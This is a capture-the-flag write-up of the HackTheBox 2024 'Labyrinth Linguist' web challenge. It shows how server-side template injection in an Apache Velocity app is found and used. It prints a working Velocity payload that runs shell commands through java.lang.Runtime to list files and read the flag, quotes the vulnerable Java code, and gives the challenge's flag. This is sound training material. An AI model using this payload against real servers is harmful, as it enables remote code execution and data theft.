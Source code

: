 ```yaml
---
name: Labyrinth Linguist (2024)
event: HackTheBox Cyber Apocalypse CTF 2024
category: Web
description: Writeup for Labyrinth Linguist (Web) - HackTheBox Cyber Apocalypse CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Labyrinth Linguist

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-vhl8ixthO4/0.jpg)](https://www.youtube.com/watch?v=-vhl8ixthO4?t=586 "HackTheBox Cyber Apocalypse '24: Labyrinth Linguist (web)")

## Description

> You and your faction find yourselves cornered in a refuge corridor inside a maze while being chased by a KORP mutant exterminator. While planning your next move you come across a translator device left by previous Fray competitors, it is used for translating english to voxalith, an ancient language spoken by the civilization that originally built the maze. It is known that voxalith was also spoken by the guardians of the maze that were once benign but then were turned against humans by a corrupting agent KORP devised. You need to reverse engineer the device in order to make contact with the mutant and claim your last chance to make it out alive.

## Solution

We can review source code but first let's check the site functionality. It's basic, we have a form field and a submit button and it says `Enter text to translate english to voxalith!`.

If we enter some text, it will send our data in a POST request, e.g. `text=hi` and display our text in a "fire" text font.

{% code overflow="wrap" %}
```html
<h2 class="fire">hi</h2>
```
{% endcode %}

The burp scanner detects several vulns, including `SSTI`, `XSS` and `Client-side desync`.

The XSS checks out, we can easily pop an alert but what is a vulnerability without impact? Let's stop wasting time with self-XSS and review the SSTI.

The advisory notes that the template engine appears to be `Velocity`. Here's the URL-decoded payload, which prints `v0oot695019a4423` to the screen.

{% code overflow="wrap" %}
```java
#set ($a=923*753) v0oot${a}a4423
```
{% endcode %}

Burp always complicates PoC's for some reason, here's a better visualisation.

{% code overflow="wrap" %}
```java
#set ($hack=420*23) ${hack}
```
{% endcode %}

When URL-encoded, it prints `9660`. So, we have confirmed the presence of server-side template injection. Next, we want to find some payloads that do more than basic mathematical calculations.

-   [Portswigger SSTI research](https://portswigger.net/research/server-side-template-injection)
-   [HackTricks Velocity SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#velocity-java)
-   [PayloadsAllTheThings Velocity SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java---velocity)
-   [Velocity SSTI blogpost](https://antgarsil.github.io/posts/velocity)
-   [Velocity user guide](https://velocity.apache.org/engine/1.7/user-guide.html)

None of the payloads I could find would work. I Tried `text=%23include("flag.txt")` and various directory traversals but it always always returned a 500 error; `unable to find resource`.

Eventually, I found a payload in a [gosecure SSTI workshop](https://gosecure.github.io/template-injection-workshop/#6) that worked.

{% code overflow="wrap" %}
```java
#set($x='')##
#set($rt=$x.class.forName('java.lang.Runtime'))##
#set($chr=$x.class.forName('java.lang.Character'))##
#set($str=$x.class.forName('java.lang.String'))##
#set($ex=$rt.getRuntime().exec('ls ../'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```
{% endcode %}

It was quite similar to the payloads in the resources listed earlier. The main difference is we didn't access the `$class` variable directly (instead accessing via a string).

Anyway, we URL-encode the payload list out the files in the directory. One is named `flag3b28509596.txt` so we can just update the payload to `cat` the flag.

Again, we solved the challenge without requiring access to server-side source code. Personally, I think this is a valuable exercise, especially if you want to improve your bug bounty skills since source code is typically unavailable. Actually, I did download the code and check it very quickly towards the beginning, e.g. it's nice to know there's a `flag.txt` that will be in the root directory.

{% code overflow="wrap" %}
```bash
mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt
```
{% endcode %}

I didn't study the source code though. If I did, I would of discovered the `Main.java` file imports `velocity` and inserts our unsanitised user input (`textString`) into the webpage, resulting in SSTI.

{% code overflow="wrap" %}
```java
template = readFileToString("/app/src/main/resources/templates/index.html", textString);
```
{% endcode %}

{% code overflow="wrap" %}
```java
StringReader reader = new StringReader(template);
org.apache.velocity.Template t = new org.apache.velocity.Template();
```
{% endcode %}

{% code overflow="wrap" %}
```java
t.setData(runtimeServices.parse(reader, "home"));
t.initDocument();
VelocityContext context = new VelocityContext();
context.put("name", "World");
StringWriter writer = new StringWriter();
t.merge(context, writer);
template = writer.toString();
```
{% endcode %}

Flag: `HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!}`
